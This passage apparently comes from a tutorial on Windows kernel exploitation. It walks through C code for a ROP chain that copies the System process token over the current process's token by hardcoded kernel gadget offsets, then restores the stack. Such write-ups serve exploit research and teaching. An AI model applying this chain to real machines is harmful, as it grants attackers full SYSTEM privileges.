 To get this we basically add `0x4b8` (the offset from `EPROCESS` to the token value in this OS build), then dereference the address into `rax`.

Next we locate the address of the exploit token (adding `0x4b8`):

```c
*(rop + index++) = (QWORD)kernelBase + 0x5f1535;			// pop rax ; ret ;
*(rop + index++) = (QWORD)0x4b8;                            // Token offset
*(rop + index++) = kernelBase + 0x254427;			        // add rax, r10 ; ret ;

// rax points to the curret token
// r8 holds the system token value
```

We need to clear out the `refCount` of the token, which is the lowest 4 bits:

```c
// clear out _EX_FAST_REF RefCnt
*(rop + index++) = kernelBase + 0x5cfdd4;			        // pop r13 ; ret ;
*(rop + index++) = 0xfffffffffffffff0;                      // mask
*(rop + index++) = kernelBase + 0x5eccfa;			        // and r8L, r13L ; ret ;
```

All the pieces are in place. `rax` contains the address of the exploit token, and `r8` contains the sanitised token value stolen from `System`:

```c
// copy the system token to the current token address
*(rop + index++) = kernelBase + 0x328456;			        // mov qword [rax], r8 ; ret ;
```

## Restoring the Stack

Remember the value we stored for the original stack? We are going to use that here to pivot back from whence we came. As I did in the previous post I am pivoting the stack back to the next return value. I am also setting `rax` to `0xc0000001`, this is the return value `NT_STATUS_UNSUCCESSFUL`, which isn't that important for this exploit:

```c
// restore the stack
*(rop + index++) = (QWORD)kernelBase + 0x5f1535;			// pop rax ; ret ;
*(rop + index++) = (QWORD)0xc0000001;                       // ret value
*(rop + index++) = kernelBase + 0x646305;			        // pop rcx ; ret ;
*(rop + index++) = (QWORD)&aBuffer - 0x10; 			        // a buffer

*(rop + index++) = kernelBase + 0x6481fa;			        // pop rdx ; ret ;
*(rop + index++) = kernelBase + 0x5ce0dd;			        // ret ;
*(rop + index++) = kernelBase + 0x3fa46b;			        // mov rsp, qword [rcx+0x10] ; jmp rdx ;
```

One really important part is that I have to minus `0x10` from the `aBuffer` address (where the original stack address is), this is because the gadget that restores `rsp` uses a dereference of `rcx+0x10`. Also note that I have used jump-oriented programming (look at me eh!) That is why I popped a `ret` gadget into `rdx`.
